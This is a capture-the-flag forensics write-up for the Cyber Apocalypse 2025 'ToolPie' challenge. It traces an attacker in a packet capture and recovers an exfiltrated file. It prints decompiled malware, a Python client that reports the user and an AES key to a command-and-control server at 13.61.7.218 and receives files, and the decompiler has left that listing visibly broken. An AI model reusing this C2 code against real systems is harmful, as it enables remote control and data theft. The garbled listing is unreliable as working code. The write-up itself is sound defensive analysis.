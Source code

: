 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | ToolPie Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: ToolPie
tags: "forensics, twh, pcap, wireshark, tshark, python, obfuscation, aes"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## ToolPie
> Solved by thewhiteh4t


- We were given a PCAP in this challenge


1. What is the IP address responsible for compromising the website?
    1. based on POST requests in the PCAP : `194.59.6.66`
2. What is the name of the endpoint exploited by the attacker?
    1. based on POST requests : `/execute`
3. What is the name of the obfuscation tool used by the attacker?
    1. simply printing the script found above shows a code object which contains a string : `Py-Fuscate`

```    
    # replaced exec() with print()
    > python chal.py
    <code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
```

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
    1. To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
    2. However none of the tools worked due to python version mismatch, so I found `pylingual`
    3. in the code we can see the ip and port : `13.61.7.218:55155`

```
    # Decompiled with PyLingual (https://pylingual.io)
    # Internal filename: Py-Fuscate
    # Bytecode version: 3.13.0rc3 (3571)
    # Source timestamp: 2025-03-24 20:26:54 UTC (1742848014)
    from os import popen
    pass
    pass
    import socket
    import threading
    import os
    import time
    import random
    import string
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import pad, unpad
    user = os.popen('whoami').read()
    BUFFER_SIZE = 4096
    SEPARATOR = '<SEPARATOR>'
    CONN = True
    def enc_mes(mes, key):
        try:
            cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
            cypher_block = 16
            mes = mes.encode() if type(mes)!= bytes else mes
            return cypher.encrypt(pad(mes, cypher_block))
        except:
            return None
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    def dec_mes(mes, key):
        if mes == b'':
            return mes
    def receive_file():
        try:
            client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client2.connect(('13.61.7.218', 54163))
            k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
            client2.send(k.encode())
            pass
            enc_received = client2.recv(BUFFER_SIZE)
            received = dec_mes(enc_received, k).decode()
            filename, filesize = received.split(SEPARATOR)
            ok_enc = enc_mes('ok2', k)
            client2.send(ok_enc)
            total_bytes = 0
            msg = b''
            if total_bytes < int(filesize):
                bytes_read = client2.recv(BUFFER_SIZE)
                msg += bytes_read
                total_bytes += len(bytes_read)
            decr_file = dec_mes(msg, k)
            with open(filename, 'wb') as f:
                f.write(decr_file)
                    pass
                    client2.close()
        except:
            pass  # postinserted
        client2.send('Error transporting file'.encode())
    def receive(client, k):
        pass
        try:
            pass  # postinserted
        s += 1
        msg = client.recv(1024)
        raise Exception('Reconnect!') if s == 300 else True if msg == b'' else False
        except:
            pass  # postinserted
        pass
        try:
            pass  # postinserted
        client.close()
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        time.sleep(60)
        except:
            time.sleep(60)
    if __name__ == '__main__':
        pass
        try:
            pass  # postinserted
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        break
        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    except:
        pass  # postinserted
    time.sleep(50)
```

5. What encryption key did the attacker use to secure the data?
    1. in the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
    2. we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`


6. What is the MD5 hash of the file exfiltrated by the attacker?
    1. since we have the key, we can write our own decryption script
    2. first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
    3. now we can write a script to parse data chunks and decrypt the stolen files

```
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import unpad
    
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    
    key = '5UUfizsRsP7oOCAq'
    
    filename = None
    size = 0
    container = b''
    filling = False
    got_size = False
    
    with open('datafile.txt') as encfile:
        hex_lines = encfile.readlines()
        for line in hex_lines:
            got_name = False
            if filename:
                got_name = True
    
            msg = bytes.fromhex(line)
            if b'SEPARATOR' in msg:
                continue
    
            if not filling:
                decr_file = dec_file_mes(msg, key)
                if b'C:' in decr_file:
                    filename = decr_file.decode().split('\\')[-1]
                    print('[+] Filename : ', filename)
                if got_name and not got_size:
                    if int(decr_file.decode()):
                        size = int(decr_file.decode())
                        print('[+] File Size : ', size)
                        got_size = True
                if size and b'ok' in decr_file:  # handle last ok msg after size
                    filling = True
            else:
                if len(container) != size:
                    container += msg
    
        decr_file = dec_file_mes(container, key)
        print(f'[+] Writing : {filename}')
        with open(filename, 'wb') as outfile:
            outfile.write(decr_file)
```    


![](https://i.imgur.com/8nMLOhx.png)


MD5 Hash : `8fde053c8e79cf7e03599d559f90b321`


